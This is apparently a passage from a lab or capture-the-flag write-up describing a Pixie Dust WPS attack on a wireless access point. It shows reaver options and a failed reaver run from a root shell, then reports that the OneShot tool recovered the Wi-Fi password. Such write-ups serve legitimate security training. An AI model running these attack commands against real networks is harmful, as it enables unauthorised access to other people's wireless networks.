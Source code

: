 ```
	-J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
	-F, --ignore-fcs                Ignore frame checksum errors
	-w, --win7                      Mimic a Windows 7 registrar [False]
	-K, --pixie-dust                Run pixiedust attack
	-Z                              Run pixiedust attack
	-O, --output-file=<filename>    Write packets of interest into pcap file

Example:
	reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv

root@attica02:/tmp# 

```

# Pixie Dust WPS Attack via Reaver - FAILED

Unfortunately the plan failed because reaver will indefinitely wait for a beacon from the access point. I suspect its failing because reaver expects to listen on an interface that has monitoring mode active. wlan0 by default does not have monitoring mode enabled.

To try workaround this I uploaded airmon-ng and attempted to put the interface into monitor mode. This is not shown in the report but it failed due to packages not being installed on the host. It may have been possible to install these packages but I did not explore that option any further.

```
root@attica02:/tmp# reaver -i wlan0 -b 02:00:00:00:01:00 -e plcrouter -K
reaver -i wlan0 -b 02:00:00:00:01:00 -e plcrouter -K

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:01:00

```

# Pixie Dust WPS Attack via OneShot

OneShot performs Pixie Dust attack without having to switch to monitor mode. This tool was able to resolve the problems faced in the previous step.

Source: https://github.com/kimocoder/OneShot

The attack was successful and recovered the wireless password for the access point as shown below.
